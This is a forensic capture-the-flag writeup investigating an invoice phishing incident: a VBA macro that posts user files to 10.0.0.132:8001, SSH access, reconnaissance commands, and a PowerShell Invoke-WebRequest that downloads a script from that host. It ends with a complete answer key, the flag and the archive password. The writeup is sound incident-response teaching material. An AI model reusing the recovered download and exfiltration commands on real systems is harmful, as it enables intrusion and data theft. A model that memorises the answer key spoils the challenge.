

# DFIR CTF Writeup — Cyberspace Invoice Investigation

## Challenge download

- **Challenge file:** [Download from Google Drive](https://drive.google.com/file/d/1MNWqCqlaDbka8_2Cv5lL8qPteX1rW1Jy/view?usp=drive_link)
- **Archive password:** `1T0G00@@(+_=)H4444_P34C3`
## 1. Challenge overview

This challenge investigates a phishing email, a malicious Microsoft Word invoice, attempted credential exfiltration, remote access through SSH, reconnaissance, Python script delivery and execution, and the recovery of an XOR-encoded flag.

The objective is to reconstruct the attack from the supplied forensic evidence and answer all 14 questions without executing the malicious document or the suspect Python script.

**Category:** Digital Forensics and Incident Response (DFIR)  
**Platform:** Windows  
**Evidence format:** AccessData Logical Image (`.ad1`) and email (`.eml`)  
**Time standard:** UTC  
**Flag format:** `Mr_Togoo{...}`

> **Methodology and provenance:** This revised writeup follows the corrected 14-question challenge and the available evidence. The original questions about a second SSH login and scheduled-task persistence have been removed because their expected answers could not be established from the supplied evidence. FTK Imager and Eric Zimmerman’s tools are the recommended Windows reproduction workflow; their Windows binaries were not run in the analysis environment. The key PowerShell, SSH and Security record numbers and timestamps were rechecked against allocated EVTX records extracted from the AD1 image. Commands for forensic tools are reproduction instructions, not a transcript of executed commands.


## 2. Evidence and integrity

Two files are provided:

| Evidence | Size (bytes) | Description |
|---|---:|---|
| `mail.eml` | 4,785 | Original phishing message |
| `Challenge.ad1` | 365,055,981 | Logical image containing Windows files and forensic artifacts |

SHA-256 digests calculated from the supplied files:

```text
mail.eml
911378ad7534cb6d72db4349c8708cce5da4d2961a5e74261e481acbcef48388

Challenge.ad1
953fff4f33c19b38edab15d0931977f158a89c91e1e94bac9346f38a5f1cdea5
```

On Windows, the hashes can be reproduced with:

```powershell
Get-FileHash -Algorithm SHA256 .\mail.eml
Get-FileHash -Algorithm SHA256 .\Challenge.ad1
```

Preserve the original files, extract evidence to a separate case folder, and work from those copies. Do not open the delivery URL, enable Word macros, connect to the attacker's address, or execute the recovered script. None of those actions is necessary for the challenge.

## 3. Toolset

| Tool | Role in the investigation |
|---|---|
| FTK Imager | Open the AD1 image, navigate the evidence tree, export forensic artifacts |
| Text editor / Python `email` | Analyze the raw EML headers and message body |
| EvtxECmd (Eric Zimmerman) | Parse Security, OpenSSH and PowerShell event logs |
| Timeline Explorer (Eric Zimmerman) | Filter, sort and correlate CSV event timelines |
| PECmd (Eric Zimmerman, optional) | Corroborate program execution with Prefetch files |
| oletools (`olevba`) | Extract and statically analyze the embedded VBA |
| Python 3 | Verify hashes, extract data and decode the final flag offline |

Tools and references:

- [FTK Imager — Exterro](https://www.exterro.com/ftk-imager)
- [Eric Zimmerman's forensic tools](https://ericzimmerman.github.io/)
- [EvtxECmd](https://github.com/EricZimmerman/evtx)
- [PECmd](https://github.com/EricZimmerman/PECmd)
- [Timeline Explorer](https://github.com/EricZimmerman/TimelineExplorer)
- [oletools](https://github.com/decalage2/oletools)

## 4. Evidence extraction using FTK Imager

1. Launch FTK Imager.
2. Select **File → Add Evidence Item → Image File**.
3. Select `Challenge.ad1`.
4. Expand the AD1 tree and identify the Windows installation and the user profile `Aymane`.
5. Right-click the required files or folders and select **Export Files**.
6. Preserve the relative paths where possible so that the origin of each artifact remains clear.

Suggested directory structure for the exported evidence:

```text
C:\Case\
├── Evidence\
│   ├── Users\
│   │   └── Aymane\
│   │       ├── Desktop\
│   │       │   └── passwords.txt
│   │       ├── Documents\
│   │       │   └── passwords.txt
│   │       ├── Downloads\
│   │       │   ├── passwords.txt
│   │       │   └── Facture Cyberspace.docm
│   │       └── AppData\Local\Programs\Python\Launcher\
│   │           └── last_part.py
│   └── Windows\
│       ├── Prefetch\
│       └── System32\
│           └── winevt\Logs\
├── CSV\
└── Analysis\
```

The layout above is a suggested export organization, not a claim that each listed directory is fully present in the logical image. Only the relevant files need to be exported for this revised challenge.

Key EVTX files to look for:

```text
Security.evtx
OpenSSH%4Operational.evtx
Microsoft-Windows-PowerShell%4Operational.evtx
```

Parse the exported logs with EvtxECmd:

```powershell
EvtxECmd.exe -d "C:\Case\Evidence\Windows\System32\winevt\Logs" --csv "C:\Case\CSV"
```

Optional: parse Prefetch separately to corroborate program execution:

```powershell
PECmd.exe -d "C:\Case\Evidence\Windows\Prefetch" --csv "C:\Case\CSV"
```

Open the resulting CSV files in Timeline Explorer. Filter by event ID, provider, command line, account and timestamp. Make sure timestamps are displayed in UTC.

---

## 5. Investigation walkthrough

### Q01 — The message (Email analysis)

> Identify the phishing email. What is its subject line?

Start with `mail.eml`, opening it as plain text rather than using an email client that might load remote content.

The relevant headers are:

```text
From: "Cyberspace Accounts Payable" <accounts.payable@cyberspace-facturation.com>
Reply-To: "Cyberspace Billing" <cyberspace.ap.services@gmail.com>
To: Mr_Togoo <mr.togoo@cyberspace.ma>
Subject: URGENT: Invoice No. 12345 – Review and signature required before 16:00 today
Date: Mon, 20 Oct 2025 09:12:37 +0100
```

The message impersonates the accounts-payable department and creates urgency by requesting a signature before 16:00. It threatens payment delays and possible late-payment penalties. The stated invoice amount is EUR 2,688.00.

The sender uses a different domain from the organization named in the message, and the Reply-To points to a Gmail address. These are suspicious indicators, not by themselves proof of ownership or spoofing.

**Evidence:** `mail.eml`, Subject header (line 4).

**Answer:**

```text
URGENT: Invoice No. 12345 – Review and signature required before 16:00 today
```

### Q02 — The delivery link (Email analysis)

> Which link leads to the invoice?

The EML is a multipart/alternative message with plain-text and HTML bodies. The link is present in both versions: in the plain-text body at line 33, and in the HTML `href` at line 78. The button text is "Open secure invoice".

A raw email parser can extract the subject and the plain-text body without rendering the HTML:

```python
from email import policy
from email.parser import BytesParser

with open("mail.eml", "rb") as f:
    message = BytesParser(policy=policy.default).parse(f)

print(message["Subject"])
body = message.get_body(preferencelist=("plain",))
if body is not None:
    print(body.get_content())
```

The Google Drive URL is included here as an evidence string. Do not visit it during the investigation; the invoice is already present in the AD1 image.

**Answer (case-sensitive):**

```text
https://drive.google.com/file/d/1hyqy4DIddLcgkinZQ4kzUfxNosib16bk/view
```

### Q03 — Document execution (Execution)

> On what date and at what time was the invoice opened?

Use FTK Imager to locate the downloaded macro-enabled document:

```text
C:\Users\Aymane\Downloads\Facture Cyberspace.docm
```

A `.docm` file can contain VBA macros, but its extension alone does not establish malicious behavior.

Export `Security.evtx`, parse it with EvtxECmd, and open the CSV in Timeline Explorer. Filter for process-creation event ID **4688** (where available) and search for:

```text
WINWORD.EXE
Facture Cyberspace.docm
```

The process command line shows Microsoft Word opening the document. The earlier analysis identified Security event record **10101** at:

```text
2026-10-23 15:20:27 UTC
```

This is stronger evidence of a document-opening event than the file's last-modified time. Word Prefetch can be used as supplementary evidence of Word execution, but it does not on its own prove which document was opened at a particular run time.

**Answer:**

```text
2026-10-23 15:20:27 UTC
```

### Q04 — The macro (Execution)

> What actions does the invoice macro perform, and what data does it target?

Export `Facture Cyberspace.docm` without launching Word. Install `oletools` in an analysis environment if it is not already installed:

```powershell
python -m pip install oletools
```

Extract the embedded VBA statically:

```powershell
olevba -c "C:\Case\Evidence\Users\Aymane\Downloads\Facture Cyberspace.docm"
```

The recovered VBA contains an `AutoOpen()` procedure. Its behavior, summarized from the earlier static analysis, is:

1. Enumerate files in the current user's Desktop, Downloads and Documents folders.
2. Attempt to read the contents of the files as text.
3. Transmit the collected contents using HTTP `POST` requests to the following address:

```text
http://10.0.0.132:8001/
```

The destination paths distinguish Desktop, Downloads and Documents.

The macro is not limited to files named `passwords.txt`; it attempts to collect readable file contents directly in those folders. The three password files are particularly significant because they store service credentials.



This diagram describes the behavior of the code. Static VBA evidence establishes the attempted behavior, not successful delivery of every file. Confirmation of network receipt would require corresponding network or server-side evidence.

**Answer:**

```text
Read desktop downloads documents contents and POST to 10.0.0.132:8001
```

### Q05 — The objective (Exfiltration)

> Which MITRE ATT&CK tactic corresponds to this data transmission?

The macro is designed to transfer collected information from the victim's machine to another host. The corresponding MITRE ATT&CK tactic is **Exfiltration**.

| ATT&CK field | Value |
|---|---|
| Tactic ID | TA0010 |
| Name | Exfiltration |

Reference: [MITRE ATT&CK — TA0010](https://attack.mitre.org/tactics/TA0010/).

**Answer:**

```text
TA0010
```

### Q06 — The technique (Exfiltration)

> Which MITRE ATT&CK technique describes this transmission?

The destination uses plaintext `http://`, not HTTPS. The VBA performs direct HTTP POST transmissions, and the recovered macro does not show reuse of an established command-and-control channel.

The intended ATT&CK mapping is the following sub-technique:

| ATT&CK field | Value |
|---|---|
| Parent technique | T1048 — Exfiltration Over Alternative Protocol |
| Sub-technique | T1048.003 — Exfiltration Over Unencrypted Non-C2 Protocol |

Reference: [MITRE ATT&CK — T1048.003](https://attack.mitre.org/techniques/T1048/003/).

**Answer:**

```text
T1048.003
```

### Q07 — Stored credentials (Credential discovery)

> Which three services are listed in the passwords.txt files in Desktop, Documents, and Downloads?

Browse the user profile in FTK Imager and export the three text files. Examine each file individually, keeping track of its source directory.

| Evidence path | Service identified |
|---|---|
| `C:\Users\Aymane\Desktop\passwords.txt` | Invoice Portal |
| `C:\Users\Aymane\Documents\passwords.txt` | SSH |
| `C:\Users\Aymane\Downloads\passwords.txt` | Employee Portal |

The macro's target directories match the locations of these credential files. This provides a plausible connection between the macro's collection behavior and the later SSH access. It does not by itself establish how the attacker learned the SSH password.

There is no need to disclose the actual password values in a public writeup.

**Answer:**

```text
invoice portal, employee portal, SSH
```

### Q08 — Remote access (Remote access)

> Which remote access service or protocol did the attacker use?

Export the OpenSSH operational log:

```text
C:\Windows\System32\winevt\Logs\OpenSSH%4Operational.evtx
```

Parse it with EvtxECmd:

```powershell
EvtxECmd.exe -f "C:\Case\Evidence\Windows\System32\winevt\Logs\OpenSSH%4Operational.evtx" --csv "C:\Case\CSV"
```

Search the output for `Accepted password`, account `Aymane`, and the remote address `10.0.0.132`. A successful password authentication entry establishes that an SSH authentication occurred.

The Windows process logs also show activity involving `sshd.exe`. The protocol is SSH, implemented by Windows OpenSSH. SSH normally uses TCP port 22.

**Answer:**

```text
SSH
```

### Q09 — First connection (Remote access)

> When did the attacker's first successful SSH login occur?

In Timeline Explorer, open the CSV for `OpenSSH%4Operational.evtx`. Filter for `Accepted password`, the user `Aymane`, and source IP `10.0.0.132`.

Alternatively, query the exported log directly with PowerShell:

```powershell
Get-WinEvent -Path "C:\Case\Evidence\Windows\System32\winevt\Logs\OpenSSH%4Operational.evtx" |
    Where-Object { $_.Message -match 'Accepted password' } |
    Sort-Object TimeCreated |
    Select-Object @{Name='TimeUTC';Expression={$_.TimeCreated.ToUniversalTime().ToString('yyyy-MM-dd HH:mm:ss')}},
                  Id, RecordId, Message |
    Format-List
```

The relevant authentication record is:

| Field | Value |
|---|---|
| Provider | OpenSSH |
| Event ID | 4 |
| Record ID | 46 |
| Timestamp (UTC) | 2026-10-23 15:25:08 |
| Account | Aymane |
| Source IP | 10.0.0.132 |
| Source port | 51394 |

```text
sshd: Accepted password for Aymane from 10.0.0.132 port 51394 ssh2
```

The successful authentication follows the invoice-opening event at 15:20:27 UTC and precedes the reconnaissance commands. The record is present in the allocated EVTX event stream. Raw string searches may also expose remnants of older events outside the active record stream; these must not be treated as currently enumerated log events without validation.

**Answer:**

```text
2026-10-23 15:25:08 UTC
```

### Q10 — Reconnaissance (Discovery)

> What were the first three reconnaissance commands executed after the first login?

Return to the parsed `Security.evtx` timeline. Filter for process creation immediately after the first attacker SSH session at 15:25:08 UTC. Inspect process names, full command lines and parent processes to connect the commands to the SSH shell.

The earlier analysis recovered the following execution sequence:

| Time — 23 October 2026 (UTC) | Command | Security event record | Purpose |
|---|---|---:|---|
| 15:25:31 | `whoami` | 10140 | Identify the executing account |
| 15:25:37 | `systeminfo` | 10141 | Collect machine and operating-system information |
| 15:25:47 | `ipconfig /all` | 10147 | Enumerate network configuration |

The process chain was linked to `sshd.exe` during the earlier analysis.

These commands also correspond to common ATT&CK Discovery techniques:

- `whoami` — [T1033: System Owner/User Discovery](https://attack.mitre.org/techniques/T1033/)
- `systeminfo` — [T1082: System Information Discovery](https://attack.mitre.org/techniques/T1082/)
- `ipconfig /all` — [T1016: System Network Configuration Discovery](https://attack.mitre.org/techniques/T1016/)

The exact order matters.

**Answer:**

```text
whoami, systeminfo, ipconfig /all
```

### Q11 — Script delivery (Delivery)

> What command did the attacker use to download the script onto the system?

> **Hint:** Search in `Microsoft-Windows-PowerShell/Operational`. I'm giving you this hint because an issue occurred during the creation of the challenge. So, Bsaha!

Export the PowerShell operational log using FTK Imager:

```text
C:\Windows\System32\winevt\Logs\Microsoft-Windows-PowerShell%4Operational.evtx
```

Parse the EVTX file with EvtxECmd:

```powershell
EvtxECmd.exe -f "C:\Case\Evidence\Windows\System32\winevt\Logs\Microsoft-Windows-PowerShell%4Operational.evtx" --csv "C:\Case\CSV"
```

Open the resulting CSV in Timeline Explorer. Filter for event ID `4104` (PowerShell Script Block Logging), and search for `last_part.py` or `Invoke-WebRequest`.

The attacker first defined the destination folder (record 666, 16:15:16 UTC):

```powershell
$folder = "$env:LOCALAPPDATA\Programs\Python\Launcher"
```

Record 668 shows the directory-creation command. The subsequent download command is recorded in **record 671**, not record 675:

| Field | Value |
|---|---|
| Channel | Microsoft-Windows-PowerShell/Operational |
| Event ID | 4104 |
| Record ID | 671 |
| Timestamp (UTC) | 2026-10-23 16:15:18 |

**Answer (recovered script block):**

```powershell
Invoke-WebRequest "http://10.0.0.132:8000/last_part.py" `
    -UseBasicParsing -OutFile "$folder\last_part.py"
```

The URL identifies the script's delivery source. `-OutFile` specifies the local destination, which resolves to `C:\Users\Aymane\AppData\Local\Programs\Python\Launcher\last_part.py` for this user. The backtick is PowerShell's line-continuation character, not an extra argument. The downloaded script is available in the AD1 evidence, so there is no need to connect to this URL.

The following command reads the forensic log only; do not run the recovered download command:

```powershell
$log = "C:\Case\Evidence\Windows\System32\winevt\Logs\Microsoft-Windows-PowerShell%4Operational.evtx"
Get-WinEvent -Path $log |
    Where-Object { $_.RecordId -in 666,668,671 } |
    Sort-Object TimeCreated |
    Select-Object @{N='TimeUTC';E={$_.TimeCreated.ToUniversalTime().ToString('yyyy-MM-dd HH:mm:ss')}},
                  Id, RecordId, Message |
    Format-List
```

### Q12 — Script execution (Execution)

> What command did the attacker use to execute the decoding script?

Remain in the PowerShell Operational event timeline. Filter for event ID `4104` and search for `last_part` or `python3`. The relevant record appears shortly after the download and directory listing.

| Field | Value |
|---|---|
| Channel | Microsoft-Windows-PowerShell/Operational |
| Event ID | 4104 |
| Record ID | 675 |
| Timestamp (UTC) | 2026-10-23 16:16:59 |

**Answer (exact recorded command):**

```powershell
python3 "$folder/last_part" 42
```

Preserve the command as recorded, including its forward slash and the absence of `.py` after `last_part`. Do not silently normalize it to another command. The final argument, `42`, is the decimal XOR key (`0x2A` in hexadecimal), which is needed for the flag recovery in Q14.

Security event ID 4688, record **10294**, provides corroborating process-creation evidence at the same second. The recorded command-line fragment contains `C:\Users\Aymane\AppData\Local\Programs\Python\Launcher/last_part 42`. This establishes process invocation, but does not independently prove that the script ran successfully or produced a particular output. No scheduled task is needed to answer this question.

### Q13 — Execution timestamp (Execution)

> When did the attacker run the command?

Retrieve the same PowerShell script-block event by its record ID and convert the timestamp to UTC. Cross-check the timestamp against Security process-creation record 10294.

```powershell
$logs = "C:\Case\Evidence\Windows\System32\winevt\Logs"
Get-WinEvent -Path "$logs\Microsoft-Windows-PowerShell%4Operational.evtx" |
    Where-Object { $_.RecordId -eq 675 } |
    Select-Object @{N='TimeUTC';E={$_.TimeCreated.ToUniversalTime().ToString('yyyy-MM-dd HH:mm:ss')}},
                  Id, RecordId, Message |
    Format-List

Get-WinEvent -Path "$logs\Security.evtx" |
    Where-Object { $_.RecordId -eq 10294 } |
    Select-Object @{N='TimeUTC';E={$_.TimeCreated.ToUniversalTime().ToString('yyyy-MM-dd HH:mm:ss')}},
                  Id, RecordId, Message |
    Format-List
```

| Artifact | Record ID | Time (UTC, to the second) |
|---|---:|---|
| PowerShell Operational | 675 | 2026-10-23 16:16:59 |
| Security | 10294 | 2026-10-23 16:16:59 |

**Answer:**

```text
2026-10-23 16:16:59 UTC
```

### Q14 — Final recovery (Recovery)

> What is the final flag obtained after decoding?

Use FTK Imager to locate and export:

```text
C:\Users\Aymane\AppData\Local\Programs\Python\Launcher\last_part.py
```

Open the script in a text editor. The earlier static analysis identified the embedded hexadecimal string:

```text
6758757e454d4545517a1b6f6919751a6c75691e611957
```

The command-line argument from Q12 is the XOR key: `42` (decimal), or `0x2A` (hexadecimal). It was recovered from PowerShell Operational event ID 4104, record 675, and corroborated by Security record 10294. XOR is reversible because applying the same key twice recovers the original byte:

```text
encoded_byte = plaintext_byte XOR key
plaintext_byte = encoded_byte XOR key
```

For example, the first encoded byte is `0x67`. XOR with `0x2A` yields `0x4D`, the ASCII character `M`.

Instead of running the suspect script, create a separate minimal decoder that operates only on the recovered data:

```python
encoded_hex = "6758757e454d4545517a1b6f6919751a6c75691e611957"
key = 42

encoded = bytes.fromhex(encoded_hex)
decoded = bytes(byte ^ key for byte in encoded)

print(decoded.decode("ascii"))
```

Output (independently reproduced):

```text
Mr_Togoo{P1EC3_0F_C4K3}
```

**Final flag: `Mr_Togoo{P1EC3_0F_C4K3}`**

---

## 6. Reconstructed incident timeline

| Date and time (UTC) | Activity | Evidence / source |
|---|---|---|
| 2025-10-20 08:12:37 | Email's declared sending time (converted from +0100) | EML Date header; not an independently verified delivery time |
| 2026-10-23 15:20:27 | Word opens `Facture Cyberspace.docm` | Security record 10101 |
| Not established | Macro attempts collection and HTTP POST exfiltration | Static VBA behavior |
| 2026-10-23 15:25:08 | First incident-related SSH login | OpenSSH event 4, record 46 |
| 2026-10-23 15:25:31 | `whoami` | Security record 10140 |
| 2026-10-23 15:25:37 | `systeminfo` | Security record 10141 |
| 2026-10-23 15:25:47 | `ipconfig /all` | Security record 10147 |
| 2026-10-23 16:15:16 | Destination directory defined and created | PowerShell records 666 and 668 |
| 2026-10-23 16:15:18 | Download command for `last_part.py` | PowerShell record 671 |
| 2026-10-23 16:16:59 | Python decoder invocation with key `42` | PowerShell record 675; Security record 10294 |
| Offline analysis | Flag recovered | Independent XOR decoding |

The email header is dated **20 October 2025**, whereas the relevant Windows events are dated **October 2026**. This is a genuine discrepancy in the supplied evidence; the dates must not be silently normalized to the same year.

## 7. MITRE ATT&CK mapping

| Observed or intended behavior | Tactic | Technique |
|---|---|---|
| Phishing link in the email | Initial Access | [T1566.002 — Spearphishing Link](https://attack.mitre.org/techniques/T1566/002/) |
| Opening malicious document | Execution | [T1204.002 — Malicious File](https://attack.mitre.org/techniques/T1204/002/) |
| Reading credential files | Credential Access | [T1552.001 — Credentials In Files](https://attack.mitre.org/techniques/T1552/001/) |
| Reading local files | Collection | [T1005 — Data from Local System](https://attack.mitre.org/techniques/T1005/) |
| Plain HTTP POST transmission | Exfiltration (TA0010) | [T1048.003 — Exfiltration Over Unencrypted Non-C2 Protocol](https://attack.mitre.org/techniques/T1048/003/) |
| SSH remote access | Lateral Movement (Remote Services) | [T1021.004 — SSH](https://attack.mitre.org/techniques/T1021/004/) |
| `whoami` | Discovery | T1033 |
| `systeminfo` | Discovery | T1082 |
| `ipconfig /all` | Discovery | T1016 |
| Downloading `last_part.py` from a remote host | Command and Control | [T1105 — Ingress Tool Transfer](https://attack.mitre.org/techniques/T1105/) |
| PowerShell script delivery | Execution | [T1059.001 — PowerShell](https://attack.mitre.org/techniques/T1059/001/) |
| Python script invocation | Execution | [T1059.006 — Python](https://attack.mitre.org/techniques/T1059/006/) |

These are behavior-level mappings. The actual use of SSH does not establish that lateral movement between two compromised hosts occurred; only remote access is established. The challenge explicitly requires TA0010 and T1048.003 for the exfiltration questions.

## 8. Final answer sheet

The following answers follow the revised 14-question challenge. The old answer key should be updated to match these answers. The delivery URL and flag are case-sensitive; UTC is included for all required timestamps.

| Question | Answer |
|---|---|
| Q01 | `urgent: invoice no. 12345 - review and signature required before 16:00 today` |
| Q02 | `https://drive.google.com/file/d/1hyqy4DIddLcgkinZQ4kzUfxNosib16bk/view` |
| Q03 | `2026-10-23 15:20:27 UTC` |
| Q04 | `Read desktop downloads documents contents and POST to 10.0.0.132:8001` |
| Q05 | `TA0010` |
| Q06 | `T1048.003` |
| Q07 | `invoice portal, employee portal, SSH` |
| Q08 | `SSH` |
| Q09 | `2026-10-23 15:25:08 UTC` |
| Q10 | `whoami, systeminfo, ipconfig /all` |
| Q11 | ``Invoke-WebRequest "http://10.0.0.132:8000/last_part.py" -UseBasicParsing -OutFile "$folder\last_part.py"`` (equivalent single-line form) |
| Q12 | `python3 "$folder/last_part" 42` |
| Q13 | `2026-10-23 16:16:59 UTC` |
| Q14 | `Mr_Togoo{P1EC3_0F_C4K3}` |

## 9. Conclusion

The challenge reconstructs an invoice-themed phishing incident followed by malicious document execution, collection of local files, intended HTTP exfiltration, SSH access, reconnaissance, script delivery and script invocation. The credential files in the macro's target folders provide an important link between the collection activity and the remote-access stage, although successful theft and reuse of the exact credential require further corroboration.

By correlating email, VBA, Windows event records and the recovered script, investigators can reconstruct the supported attack sequence and identify the numeric XOR key `42`. The final flag is recoverable entirely offline, without executing either the malicious macro or the suspicious Python script.

**Flag:** `Mr_Togoo{P1EC3_0F_C4K3}`
